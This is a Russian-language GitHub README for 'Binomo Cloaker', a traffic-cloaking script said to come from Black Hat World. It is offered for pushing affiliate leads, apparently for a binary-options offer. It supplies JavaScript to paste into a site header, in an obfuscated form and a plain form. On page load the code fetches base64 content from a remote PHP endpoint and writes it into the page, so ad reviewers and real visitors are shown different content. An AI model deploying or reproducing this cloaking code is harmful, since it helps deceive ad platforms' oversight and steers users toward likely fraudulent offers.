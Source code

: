# Binomo Cloaker
Модифицированный скрипт клоакинга, изначально найденный на просторах [Black Hat World](http://blackhatworld.com).

[Описание настройки первых версий тут!](https://yellowweb.top/%d0%ba%d0%bb%d0%be%d0%b0%d0%ba%d0%b8%d0%bd%d0%b3-%d0%b4%d0%bb%d1%8f-%d0%b1%d0%b5%d0%b4%d0%bd%d0%be%d0%b3%d0%be-%d0%bd%d0%be-%d1%83%d0%bc%d0%bd%d0%be%d0%b3%d0%be-%d0%b0%d1%80%d0%b1%d0%b8%d1%82%d1%80/)

[Видео с обзором новых возможностей тут.](https://www.youtube.com/watch?v=x-Z2Y4lEOc0&t=656s)

Внимание: лог трафика сейчас находится просто в папке logs.

По всем вопросам пишите Issues на GitHub либо в паблик http://vk.com/yellowweb

Если вы налили кучу лидов с помощью этой штуки и *хотите сделать доброе дело* - [**киньте донат**!](https://capu.st/yellowweb)


Справка по JS-интеграции кло:
Конечный вариант вставить в header конструктора, вместо https://site.ru/ указываете свой домен

<script>
    var script_url = 'https://site.ru/jsprocessing.php';
    var _0x37a0=['responseText','load','addEventListener','write','readystatechange','GET','readyState'];(function(_0x43ef8f,_0x37a067){var _0x5aaf46=function(_0x1484ee){while(--_0x1484ee){_0x43ef8f['push'](_0x43ef8f['shift']());}};_0x5aaf46(++_0x37a067);}(_0x37a0,0x181));var _0x5aaf=function(_0x43ef8f,_0x37a067){_0x43ef8f=_0x43ef8f-0x0;var _0x5aaf46=_0x37a0[_0x43ef8f];return _0x5aaf46;};window[_0x5aaf('0x2')](_0x5aaf('0x1'),function(){var _0xcc31c6=new XMLHttpRequest();_0xcc31c6['open'](_0x5aaf('0x5'),script_url,!![]),_0xcc31c6['addEventListener'](_0x5aaf('0x4'),function(){if(_0xcc31c6[_0x5aaf('0x6')]==0x4&&_0xcc31c6['status']==0xc8){if(_0xcc31c6[_0x5aaf('0x0')]!==''){var _0x16a5a0=atob(_0xcc31c6[_0x5aaf('0x0')]);document[_0x5aaf('0x3')](''+_0x16a5a0+'');}}}),_0xcc31c6['send']();});        
</script>

Либо вот такой вариант до обфускации

<script>
        var script_url = 'https://safe-shop.shop/jsprocessing.php';
        
		window.addEventListener("load", function () {
			var request = new XMLHttpRequest();
			request.open('GET', script_url, true);
			request.addEventListener('readystatechange', function () {
				if ((request.readyState == 4) && (request.status == 200)) {
                        if(request.responseText !== ''){
                            var decodedString = atob(request.responseText);
                            document.write(''+ decodedString +'');
                        }
				}
			});
			request.send();
		});
</script>